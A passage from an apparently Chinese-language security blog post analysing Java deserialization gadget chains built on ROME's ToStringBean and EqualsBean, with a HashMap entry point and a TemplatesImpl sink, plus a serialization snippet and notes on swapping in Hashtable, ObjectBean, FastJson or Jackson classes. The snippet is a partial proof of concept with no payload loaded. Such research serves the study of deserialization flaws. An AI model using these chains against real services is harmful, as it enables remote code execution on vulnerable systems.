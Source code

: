 代码如下

```plain
ToStringBean toStringBean = new ToStringBean(Templates.class,new ConstantTransformer(1));
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);
        Object templatesimpl = null;

        HashMap<Object,Object> hashMap = new HashMap<>();
        hashMap.put(equalsBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("obj"); // 低版本（如1.0）此属性名为 _obj
        field.setAccessible(true);
        field.set(toStringBean,templatesimpl);
        serialize(hashMap);
        unserialize("ser.bin");
```

调用栈如下  
[![](assets/1698893403-a594ea272ba561932aff12b07b2bf83b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231017210100-38300912-6ced-1.png)

另外这条链很多地方都可以替换

-   由于是在HashMap中调用key.hashCode()作为入口，所以入口类HashMap可以换成Hashtable
-   `ObjectBean.hashCode()`中会调用`EqualsBean.beanHashCode() = EqualsBean.hashCode()` 因此可以用ObjectBean替换EqualsBean

### 中间部分

`FastJson的JSONObject类 或 Jackson的POJONode类 或 ROME的ToStringBean类`中放好目标类即可

### toString()->sink

#### TemplatesImpl#getOutputProperties

**JDK原生可用**

这条链早在CC和CB中就用到过，故不多作介绍

三组件均可用，但结合**Rome、Jackson**使用时需要一些特殊处理，详见后文

